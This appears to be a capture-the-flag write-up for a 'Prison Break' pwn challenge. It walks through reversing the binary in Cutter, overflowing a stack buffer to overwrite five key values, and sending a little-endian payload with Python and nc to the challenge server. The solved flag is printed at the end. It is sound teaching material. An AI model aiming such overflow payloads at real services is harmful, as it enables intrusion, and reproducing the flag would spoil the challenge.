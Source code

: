 # Prison Break



````
[Noiche] : J'ai été envoyé au goulag l'année dernière à cause de mes challenges de PWN... Venez m'aider à sortir d'ici et je vous récompenserai :p

Accès au challenge : nc ctf.midnightflag.fr 9021

Format : MCTF{}

Auteur : Noiche
````

Files :

[Prison_Break](files/prison_break)

The file given is non executable and is just given to reverse the code of the server. We cannot get the flag only by reversing the file.

Here is what we get by connecting to the server using nc:

![prison_server](images/prison_server.png)

After writing anything, we get this message:

```
Noiche : NOOOO !! You droped the wrong key ! :(
Key    : [ 0x0 - 0x0 - 0x0 - 0x0 - 0x0 ]
```

Well, we will surely need to change this value in order to free Noiche. First we try a basic buffer overflow by flooding the input with A:

```sh
python -c "print 'A' * 1000" | nc ctf.midnightflag.fr 9021

...

Noiche : NOOOO !! You droped the wrong key ! :(
Key    : [ 0x41414141 - 0x41414141 - 0x41414141 - 0x41414141 - 0x41414141 ]
```

We can control the key! ...but we don't know what key do we need.

Let's take a quick look at the executable. We open it in [Cutter](https://cutter.re/), and we can directly see a function named `vuln`.

![prison_functions](images/prison_functions.png)

The function is pretty simple, we can see some parts that stand out.

The function set 6 memory spaces to 0, we can ignore `var_ch`:

![prison_memory_set](images/prison_memory_set.png)

It's seems that those are the memory spaces we overflowed before. All space are 4 bytes long and are next to each other.

There is a scanf and some comparisons just after:

![prison_cmp](images/prison_cmp.png)

The different parts of the key are being checked here. We can reproduce the key by using the parameters in each cmp: `0x800`, `0xfffffe49`, `0xb3350000`, `0x0` and `0x1000`.

We will fill the variable with A until we reach the start of the key and then write the actual key.

Since the stack is little endian, we will need to reverse each byte in every part of the key in the final payload (e.g. `0xfffffe49` will be `0x49feffff`).

The payload can be done using Python:
```sh
python -c "print 'A' * number_to_overflow + '\x00\x10\x00\x00' + '\x00\x00\x00\x00' + '\x00\x00\x35\xb3' + '\x49\xfe\xff\xff' + '\x00\x08\x00\x00'" | nc ctf.midnightflag.fr 9021
```

By guessing, we find that we need to write 256 bytes to reach the key in memory.

We can then replace `number_to_overflow` in our script by 256 and send it once again:

![prison_free](images/prison_free.png)

Here is the flag!

Flag: `MCTF{___1m_fr33_!_1_c4n_m4k3_m0r3_ch4ll5_n0w_!!!___}`

Author: Ooggle
